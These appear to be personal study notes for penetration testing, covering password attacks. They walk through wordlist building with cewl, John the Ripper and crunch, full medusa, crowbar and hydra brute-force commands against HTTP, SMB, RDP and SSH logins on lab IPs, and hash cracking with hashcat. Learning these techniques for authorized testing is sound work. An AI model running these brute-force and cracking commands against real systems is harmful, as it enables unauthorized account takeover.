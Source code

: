 In general many pws under `/usr/share/worklists/`
# commond passwords available in kali
/usr/share/worklists/rockyou.txt

## unzip with
gunzip /usr/share/worklists/rockyou.txt.gz

# dictionary attack
* geneate wordlist by studying website, creates a file which contains works greater than six chars (-m6): `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`
* using John the Ripper to mutate the wordlist: `sudo nano /etc/john/john.conf`
We might just add a unique rule for JTR (see adding following text in code): 
```
# Wordlist mode rules
[List.Rules:Wordlist]
# Try words as they are
:
# Lowercase every pure alphanumeric word
-c >3 !?X l Q
# Capitalize every pure alphanumeric word
-c (?a >2 !?X c Q
# Lowercase and pluralize pure alphabetic words
...
# Try the second half of split passwords
-s x_
-s-c x_ M l Q
# [Adding following:]Add two numbers to the end of each password
$[0-9]$[0-9]
```
* run to mutate the list: `john --wordlist=bigTree-cewl.txt --rules --stdout > mutated.txt` 

# Bruteforce wordlists (if you have a specific pw policy)
In contrast to a dictionary attack, a brute force password attack calculates and tests every possible
character combination that could make up a password until the correct one is found

* for example pw policy: `[Capital Letter][2 x lower case letters] [2 x special chars][3 x numeric]`
* check manual for crunch `man crunch` then we might generate random pws with: `crunch 8 8 -t ,@@^^%%%` => will exatly generate as described above
Placeholder Character Translation
```
@ => Lower case alpha characters
, => Upper case alpha characters
% => Numeric characters
^ => Special characters including space
```
* `crunch 4 6 0123456789ABCDEF -o crunch.txt` => create pws with length 4 to 6 with allowed chars "01...EF"

# Bruteforcing different protocolls
`medusa -d` to check with protocols can be bruteforced

## http baseAuth with username and pw
`medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin`

## smb
`medusa -h 192.168.174.10 -u admin -P /usr/share/wordlists/rockyou.txt -M smbnt`

## rdp - Remote Desktop Protocol Attack (windows) with Crowbar
Crowbar, formally known as Levye, is a network authentication cracking tool primarily designed to
leverage SSH keys rather than passwords. It is also one of the few tools that can reliably and
efficiently perform password attacks against the Windows Remote Desktop Protocol (RDP) service
on modern versions of Windows.

To invoke crowbar , we will specify the protocol ( -b ), the target server ( -s ), a username ( -u ), a
wordlist ( -C ), and the number of threads ( -n ) => *rdp just support one thread*
`crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1`

## SSH Attack with THC-Hydra
//using username “root” with a password list on ssh with 4 parallel tasks and verbose
`hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.0.13:22 -t 4 -V`
or: `hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1`

## HTTP POST Attack with THC-Hydra
As an additional example, we will perform an HTTP POST attack against our Windows Apache
server using Hydra. When a HTTP POST request is used for user login, it is most often through the
use of a web form, which means we should use the “http-form-post” service module
`hydra http-form-post -U`

The complete command can now be executed. We will supply the admin user name ( `-l admin` )
and wordlist ( `-P` ), request verbose output with `-vV` , and use `-f` to stop the attack when the first
successful result is found. In addition, we will supply the service module name ( `http-form-post` )
and its required arguments ( `“/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN”` )
`hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f`

# Hashes

## Identifying hashes
`hashid c43ee559d69bc7f691fe2fbfe8a5ef0a`
Generates:
Analyzing 'c43ee559d69bc7f691fe2fbfe8a5ef0a'
[+] MD2

## Decrypt hashes

Example: cracking md5 (0 => md5) -a attackmode
`hashcat -m 0 -a 0 "5f4dcc3b5aa765d61d8327deb882cf99"`

OR add `--force` run with CPU instead of GPU; 0 => md5
`hashcat -m 0 md5hash.txt /home/kali/Documents/rockyou.txt --force`